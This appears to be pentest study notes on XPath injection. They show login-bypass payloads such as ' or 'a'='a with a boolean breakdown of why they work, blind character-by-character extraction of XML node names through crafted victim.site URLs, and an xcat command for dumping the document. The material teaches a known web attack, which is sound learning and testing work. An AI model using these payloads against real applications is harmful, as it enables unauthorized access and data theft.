 # XPath authentication query

<someNode>[username='<USERNAME>' and password='<PASSWORD>']

Choosing username as injecion parameter:
' or 'a'='a' or 'a'='a

XPath query would now be:
//<someNode>[username='' or 'a'='a' or 'a'='a' and password='']

Expression:
username='' or 'a'='a' or 'a'='a' and password=''
    A             C          D           B

can be represented as:
(A OR C) OR (D AND B)

In an OR comparison, the second condition (D AND B) is checked only if the first (A OR C) is FALSE.
Since A OR C is always TRUE, the second is never checked: the attacker has neutralized the AND.

Choosing password as injecion parameter:
' or 'a'='a

XPath query would now be:
//<someNode>[username='' and password='' or 'a'='a']

Expression:
username='' and password='' or 'a'='a'
    A             B               C

can be represented as:
(A AND B) OR (C)

The expression (C) is always TRUE, so the overall query is always TRUE and, therefore, returns a result set.

Goal extraction of attacker
SQL database: schemas, tables, columns
XML document: nodes, attributes, values

Exploitation

<http://victim.site/getInfo.php?countryID=1>'

//[id=$countryID]/<otherNode>
//<someNode>[id=$countryID]
//<someNode>[@id=$countryID]
//<someNode>[id=$countryID]/<otherNode>

999999999 or "a"="a"

<http://victim.site/getInfo.php?countryID=999999999> or "a"="a"
<http://victim.site/getInfo.php?countryID=999999999> or "a"="b"

substring(name(/*[1]),1,1)="a"

//<someNode>[id=999 or substring(name(/*[1]),1,1)="a"]/<otherNode>

<http://victim.site/getInfo.php?countryID=999> or substring(name(/*[1]),1,1)="a" FALSE
<http://victim.site/getInfo.php?countryID=999> or substring(name(/*[1]),1,1)="b" FALSE
<http://victim.site/getInfo.php?countryID=999> or substring(name(/*[1]),1,1)="c" TRUE

<http://victim.site/getInfo.php?countryID=999> or substring(name(/*[1]),2,1)="o" TRUE
<http://victim.site/getInfo.php?countryID=999> or substring(name(/*[1]),3,1)="u" TRUE

<http://victim.site/getInfo.php?countryID=999> or name(/*[1])="countries" TRUE
<http://victim.site/getInfo.php?countryID=999> or name(/*[1])="countriessssss" FALSE

USING XCAT

root@kali:~# xcat --method=GET <http://victim.site/getInfo.php> countryID=1 countryID "USA" run retrieve --output /root/Desktop/result.xml --format xml
